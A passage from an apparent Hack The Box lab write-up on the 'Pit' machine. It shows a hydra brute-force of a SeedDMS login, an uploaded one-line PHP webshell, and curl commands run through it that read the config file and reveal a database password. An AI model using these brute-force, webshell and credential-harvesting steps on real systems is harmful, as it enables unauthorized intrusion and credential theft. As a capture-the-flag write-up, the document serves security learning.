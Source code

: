 As we have some usernames and this is half of the answer, obtained from `snmpwalk` scans where **michelle** was found, we can try to guess or brute-force it using `hydra`, where we interestingly found the password as the same as the username:

```bash
$ hydra -l michelle -P /usr/share/wordlists/rockyou.txt dms-pit.htb http-post-form "/seeddms51x/seeddms/op/op.Login.php:login=^USER^&pwd=^PASS^&lang=:Error" -t 10
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-08-10 16:05:20
[DATA] max 10 tasks per 1 server, overall 10 tasks, 14344399 login tries (l:1/p:14344399), ~1434440 tries per task
[DATA] attacking http-post-form://dms-pit.htb:80/seeddms51x/seeddms/op/op.Login.php:login=^USER^&pwd=^PASS^&lang=:Error
[80][http-post-form] host: dms-pit.htb   login: michelle   password: michelle
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-08-10 16:05:24
```

Now that we have access to SeedDMS, we can use it to exploit the vulnerability, which, after uploading a php document, in this case a simple webshell (`<?php system($_GET["cmd"]); ?>`), we were able to execute commands using `curl` leveraging the Document ID of the uploaded file, in this case **31**:

```bash
$ curl -X GET -G 'http://dms-pit.htb/seeddms51x/data/1048576/31/1.php' --data-urlencode 'cmd=id'
uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
```

## User flag

Besides having now RCE machine, every reverse shell command I try fails. I have tried several ways (bash, python, external payload, etc) and none of them worked, possibly due to SELinux enabled on the box. Based on that, decided to use the webshell to enumerate the system.

Checking [SeedDMS project page on GitHub](https://github.com/JustLikeIcarus/SeedDMS/blob/master/conf/settings.xml.template), identified that there's a `/conf/settings.xml` file which contains the credentials to the database, which could be reused for other users in the system.

```bash
$ curl -X GET -G 'http://dms-pit.htb/seeddms51x/data/1048576/33/1.php' --data-urlencode 'cmd=cat /var/www/html/seeddms51x/conf/settings.xml' | grep database
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 11933    0 11933    0     0  77993      0 --:--:-- --:--:-- --:--:-- 77993
    <edition strictFormCheck="false" viewOnlineFileTypes=".txt;.text;.html;.htm;.xml;.pdf;.gif;.png;.jpg;.jpeg" enableConverting="true" enableEmail="true" enableUsersView="true" enableFullSearch="true" enableClipboard="false" enableFolderTree="true" expandFolderTree="1" enableLanguageSelector="true" stopWordsFile="" sortUsersInList="" enableDropUpload="false" enableRecursiveCount="false" maxRecursiveCount="0" enableThemeSelector="false" fullSearchEngine="sqlitefts" sortFoldersDefault="u" editOnlineFileTypes="" enableMenuTasks="false" enableHelp="false" defaultSearchMethod="database" libraryFolder="0" maxSizeForFullText="0" showSingleSearchHit="false" enableSessionList="false" enableDropFolderList="false" enableMultiUpload="false" defaultDocPosition="end">
       - restricted: Restricted access: only allow users to log in if they have an entry in the local database (irrespective of successful authentication with LDAP).
       - dbDatabase: database where the tables for seeddms are stored (optional - see adodb-readme)
       - dbUser: username for database-access
       - dbPass: password for database-access
    <database dbDriver="mysql" dbHostname="localhost" dbDatabase="seeddms" dbUser="seeddms" dbPass="ied^ieY6xoquu" doNotCheckVersion="false">
    </database>
```

